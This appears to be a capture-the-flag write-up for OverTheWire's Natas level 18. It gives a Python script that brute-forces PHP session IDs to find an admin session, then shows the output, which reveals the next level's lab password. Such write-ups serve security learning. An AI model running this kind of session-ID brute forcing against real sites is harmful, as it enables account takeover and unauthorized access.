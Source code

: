 ## Level 18

In level 18 we can log in with any credentials, however to get the password to the next level we must be admin.

Inspecting the source code shows there is a maximum 641 potential sessions. Let's try brute forcing the PHP SessionID.

Let's adjust our script.

```python
import requests

user = 'natas18'
password = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'
url = 'http://natas18.natas.labs.overthewire.org/'

for i in range(641):
    cookies = dict(PHPSESSID=str(i))
    r= requests.get(url, auth=(user, password), cookies=cookies)
    if 'You are an admin' in r.text:
        print("Admin Session ID =", i)
        print(r.text)
        break
    else:
        print("Not Session ID =" , i)

```
Running gives us
```html
Not Session ID = 0
Not Session ID = 1
...
Not Session ID = 133
Not Session ID = 134
Not Session ID = 135
Not Session ID = 136
Not Session ID = 137
Admin Session ID = 138
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
